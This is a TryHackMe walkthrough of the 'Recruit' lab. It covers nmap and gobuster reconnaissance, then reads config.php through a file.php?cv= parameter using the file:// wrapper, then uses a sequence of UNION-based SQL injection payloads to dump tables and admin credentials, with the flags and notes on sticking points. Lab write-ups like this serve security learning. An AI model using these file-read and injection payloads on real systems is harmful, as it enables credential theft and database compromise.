







# Recruit - TryHackMe walkthrough

[roomLink](https://tryhackme.com/room/recruitwebchallenge) {Premium}

# Questions 

1. What is the user flag?
2. What is the admin flag?

# Thinking Steps

The first thing that I did was doing reconnaissance.

```bash
sudo nmap -sT -A -T4 <IP_Target>
```

Here are the results:

```
Nmap scan report for <IP>
Host is up (0.30s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dd:45:80:1b:26:67:a3:6d:ae:c5:81:b5:3f:f6:a2:75 (RSA)
|   256 b3:f1:86:38:d0:f9:d8:91:08:1d:91:31:be:39:aa:79 (ECDSA)
|_  256 d9:2f:be:f3:05:e3:23:09:a7:b5:4b:c0:9a:b5:aa:62 (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Recruit
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=8/16%OT=22%CT=1%CU=34582%PV=Y%DS=3%DC=T%G=Y%TM=6A8170A
OS:2%P=aarch64-unknown-linux-gnu)SEQ(SP=100%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS
OS:=A)SEQ(SP=103%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=103%GCD=1%ISR=109
OS:%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)SEQ(SP=107%
OS:GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M
OS:4E8NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)WIN(W1=F4B3%W2=F4B
OS:3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M4E8NNSNW7%
OS:CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   315.66 ms 192.168.128.1
2   ...
3   319.55 ms <IP>

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.10 seconds
```

We know that this is a web address, so we launch a browser and enter the IP address, we got this result:



After that, I opened a tool called `gobuster` to search for different directories inside the webpage.

I ran this command:

`gobuster dir -u http://<IP> -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,bak,txt,js -t 200 2>/dev/null`

We got this results:

```
.hta.bak             (Status: 403) [Size: 279]
.htaccess.bak        (Status: 403) [Size: 279]
.htpasswd.bak        (Status: 403) [Size: 279]
.htaccess.php        (Status: 403) [Size: 279]
.htaccess.txt        (Status: 403) [Size: 279]
.hta.php             (Status: 403) [Size: 279]
.htaccess            (Status: 403) [Size: 279]
.htpasswd            (Status: 403) [Size: 279]
.htaccess.js         (Status: 403) [Size: 279]
.htpasswd.js         (Status: 403) [Size: 279]
.hta.js              (Status: 403) [Size: 279]
.htpasswd.txt        (Status: 403) [Size: 279]
.hta                 (Status: 403) [Size: 279]
.hta.txt             (Status: 403) [Size: 279]
.htpasswd.php        (Status: 403) [Size: 279]
api.php              (Status: 200) [Size: 4151]
assets               (Status: 301) [Size: 317] [--> http://<IP_target>/assets/]
config.php           (Status: 200) [Size: 0]
dashboard.php        (Status: 302) [Size: 457] [--> index.php]
file.php             (Status: 200) [Size: 20]
footer.php           (Status: 200) [Size: 289]
header.php           (Status: 200) [Size: 457]
index.php            (Status: 200) [Size: 1417]
index.php            (Status: 200) [Size: 1417]
javascript           (Status: 301) [Size: 321] [--> http://<IP_target>/javascript/]
logout.php           (Status: 302) [Size: 0] [--> index.php]
mail                 (Status: 301) [Size: 315] [--> http://<IP_target>/mail/]
phpmyadmin           (Status: 301) [Size: 321] [--> http://<IP_target>/phpmyadmin/]
server-status        (Status: 403) [Size: 279]
sitemap.xml          (Status: 200) [Size: 1710]

===============================================================
Finished
===============================================================
```

Now, the part that interest me the most is `api.php`, since it provides the list of API settings.

Here is the detail of the endpoint `api.php`:



There, I got an information that fetching a request of files using `file.php?cv=<URL>`.

After that, I went through the `mail` parameter, and found `mail.log` file.

```log
May 14 09:32:11 recruit-server postfix/smtpd[2143]: connect from hr-workstation.local[10.10.5.23]
May 14 09:32:12 recruit-server postfix/smtpd[2143]: 4F1A2203F: client=hr-workstation.local[10.10.5.23]
May 14 09:32:13 recruit-server postfix/cleanup[2146]: 4F1A2203F: message-id=<20240514093213.4F1A2203F@recruit.local>
May 14 09:32:13 recruit-server postfix/qmgr[1789]: 4F1A2203F: from=<hr@recruit.thm>, size=1824, nrcpt=1 (queue active)
May 14 09:32:14 recruit-server postfix/local[2151]: 4F1A2203F: to=<it-support@recruit.local>, relay=local, delay=0.34, status=sent

------------------------------------------------------------
From: HR Team <hr@recruit.thm>
To: IT Support <it-support@recruit.thm>
Date: Tue, 14 May 2024 09:32:10 +0000
Subject: Recruitment Portal Deployment Confirmation

Hi Team,

Just a quick update to confirm that the new Recruitment Portal
has been deployed successfully and is functioning as expected.

We’ve completed basic validation:
- Login page is accessible
- Candidate dashboard loads correctly
- API documentation page is live

As discussed during deployment:
- HR login credentials (username: hr) are currently stored in the application
  configuration file (config.php) for ease of access during
  the initial rollout phase.
- Administrator credentials are NOT stored in the application
  files and are securely maintained within the backend database.

Please let us know if there are any issues or if further changes
are required.

Thanks,
HR Operations
Recruitment Team
------------------------------------------------------------

May 14 09:32:14 recruit-server postfix/qmgr[1789]: 4F1A2203F: removed

```

At this stage, we get the username: `hr`.

So we know that the password of the username is stored in the configuration file called `config.php`, which we just discovered in the discovery phase. We won't access it directly using the parameter since it has no content to visit.

Remember the FAQ from the API section? There is the information that we may use to access `config.php`.

I tried using `config.php` or `./config.php` directly, and here are the results:



This is the point that I got stuck, this section will be discussed further down [StuckMoments](#where-i-got-stuck)

After figuring out where I got stuck on, I immediately put the parameter and I checked the `config.php` file:

```php
<?php

/*
|--------------------------------------------------------------------------
| Application Configuration
|--------------------------------------------------------------------------
*/

$APP_NAME        = 'Recruit';
$APP_ENV         = 'production';
$APP_VERSION     = '1.2.4';
$APP_DEBUG       = false;

/*
|--------------------------------------------------------------------------
| HR Credentials (Temporary – Initial Rollout Phase)
|--------------------------------------------------------------------------
| NOTE:
| These credentials are stored here temporarily for ease of access
| during the initial deployment and will be moved to the database
| in a future release.
*/

$HR_PASSWORD = 'hrpassword123';

/*
|--------------------------------------------------------------------------
| API Configuration
|--------------------------------------------------------------------------
*/

$API_ENABLED     = true;
$API_VERSION     = 'v1';


?>
```

I logged in with the credentials given and able to retrieve the user flag, and we get the dashboard of the HR application.



Flag: `THM{LOGGED_IN_USER}

## Admin flag

Here, we get the column of names and their positions as well as their status. To confirm if there are vulnerabilities (SQL Injection, for instance), we need to use a single quotation mark(') to test against SQL Injection.


It works, which confirms this database is vulnerable to SQL injection.

Now, we can test for several payloads.

Getting the database name + number of columns:

`' UNION SELECT 1,2,3,database() '-- `

It is confirmed that the name of the database is `recruit_db`.

After that, we get the table names.

`' UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema = "recruit_db"'--`

Now, the table name does not return anything, which is very weird.

After trying different combinations, we get this payload:

`' UNION SELECT table_name, GROUP_CONCAT(table_name), table_name, table_name FROM information_schema.tables WHERE table_schema = "recruit_db"'--`

Here is the response:



We just need `GROUP BY` parameter to be implemented in the SQL.

After trying, it returns an error. 

We use `COUNT()` in the SQL payload & it shows there are 0 tables.

So we need another way.

Tried several methods, and got stuck [Story](#where-i-got-stuck).

After looking at the step, we can use this payload:

`'UNION SELECT table_name,2,3,4 FROM information_schema.tables-- -`

It removes the whitespace for that extra dash. (-- -)

We can get the table_name from the given syntax above.

So, the syntax is: `' UNION SELECT table_name, 2,3,4 FROM information_schema.tables WHERE table_schema="recruit_db"-- 1` <- make sure to put anything after the comment (like a letter or number)

We get 2 table names: `candidates` and `users`.

After that, we can obtain the column name.

`' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name = "users" -- 1`

There, we obtain the column names.



There, we can obtain the username and password of the administrator account.

`' UNION SELECT username,password,3,4 FROM users-- a`

So the username and password is:

`admin:admin@001admin`

We obtain the flag: `THM{LOGGED_IN_ADM1N1}`

# Where I got stuck

1. Accessing `config.php` using `cv` parameter

I got stuck where I wanted to access `config.php` using the `cv` parameter, which the file used is `file.php?cv=<URL>`. I looked up into this [writeup](https://infosecwriteups.com/recruit-thm-writeup-e8e865de647d) that helped me to get into the next step.

The writeup wrote an explanation: 

"After looking around on the internet, I found a bypass to this error using the file:// wrapper to read local files."

So, we know that it uses `file://`, instead of path traversal.

We tried `file://config.php` and it works.

2. Got stuck retrieving the payload

Thinking of using the method `' UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema="recruit_db"'--`

I did not retrieve any single table_name from here.

So, I decided to see the same medium link from the first number. 

Here is the payload that he uses:

`' UNION SELECT table_name,2,3,4 FROM information_schema.tables-- -`

Hmm, I wonder why there is a single dash at the end.

After looking up online, it preserves as a space-protection for web browsers. We can use `#` instead.


